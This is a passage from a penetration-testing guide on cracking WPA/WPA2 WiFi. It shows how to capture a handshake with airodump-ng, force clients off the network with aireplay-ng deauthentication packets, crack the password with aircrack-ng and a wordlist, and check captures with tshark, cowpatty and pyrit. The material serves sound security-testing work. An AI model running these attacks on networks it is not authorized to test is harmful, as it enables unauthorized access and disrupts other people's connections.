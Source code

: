 Handshake capture
An attack on WPA/WPA2 networks can be executed by capturing a handshake and attempting to crack the password offline. This process involves monitoring the communication of a specific network and BSSID on a particular channel. Here's a streamlined guide:

Identify the BSSID, channel, and a connected client of the target network.

Use airodump-ng to monitor the network traffic on the specified channel and BSSID, hoping to capture a handshake. The command will look like this:

Copy
airodump-ng wlan0 -c 6 --bssid 64:20:9F:15:4F:D7 -w /tmp/psk --output-format pcap
To increase the chance of capturing a handshake, momentarily disconnect the client from the network to force a re-authentication. This can be done using the aireplay-ng command, which sends deauthentication packets to the client:

Copy
aireplay-ng -0 0 -a 64:20:9F:15:4F:D7 wlan0 #Send generic deauth packets, may not work in all scenarios
Note that as the client was deauthenticated it could try to connect to a different AP or, in other cases, to a different network.

Once in the airodump-ng appears some handshake information this means that the handshake was captured and you can stop listening:



Once the handshake is captured you can crack it with aircrack-ng:

Copy
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 64:20:9F:15:4F:D7 /tmp/psk*.cap
Check if handshake in file
aircrack

Copy
aircrack-ng psk-01.cap #Search your bssid/essid and check if any handshake was capture
tshark

Copy
tshark -r psk-01.cap -n -Y eapol #Filter handshake messages #You should have the 4 messages.
cowpatty

Copy
cowpatty -r psk-01.cap -s "ESSID" -f -
If this tool finds an uncompleted handshake of an ESSID before the completed one, it won't detect the valid one.

pyrit

Copy
apt-get install pyrit #Not working for newer versions of kali
pyrit -r psk-01.cap analyze
WPA Enterprise (MGT)
In enterprise WiFi setups, you'll encounter various authentication methods, each providing different security levels and management features. When you use tools like airodump-ng to inspect network traffic, you might notice identifiers for these authentication types. Some common methods include:

Copy
6A:FE:3B:73:18:FB  -58       19        0    0   1  195  WPA2 CCMP   MGT  NameOfMyWifi
EAP-GTC (Generic Token Card):
